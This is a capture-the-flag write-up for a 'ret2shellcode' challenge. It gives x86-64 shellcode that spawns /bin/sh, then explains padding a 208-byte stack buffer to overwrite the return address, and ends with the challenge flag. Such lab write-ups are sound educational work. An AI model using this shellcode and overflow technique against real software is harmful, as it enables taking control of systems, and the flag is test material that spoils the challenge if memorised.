


# retshell
## Description
> nc sqlab.zongyuan.nctu.me 6002
>
> [ret2shellcode](ret2shellcode)
---
## Writeup
For this problem, we need to inject shellcode to buffer, then use bufferoverflow to alter return address back to buffer to execute shellcode. (The problem provides the buffer address)

Below is the shellcode to gain /bin/sh
```asssembly
push rax # for alignment (not sure why)
xor rdx, rdx # use xor to prevent null byte
xor rsi, rsi
mov rbx, 0x68732f2f6e69622f # little endian for /bin//sh, the extra slash is for preventing null byte
push rbx # push to stack
mov rdi, rsp # make rdi point to string
mov al, 0x3b # use mov al to prevent null byte
syscall
```

Next use objdump to see `sub rsp, 0xd0`, which means the space for buffer is 208 bytes.



So 208 + 8(rbp) with address appended we can override the return address. The shellcode takes 25 bytes, so we need to add 191 bytes of garbage to do it.



flag : balqs{system_bin_sh?}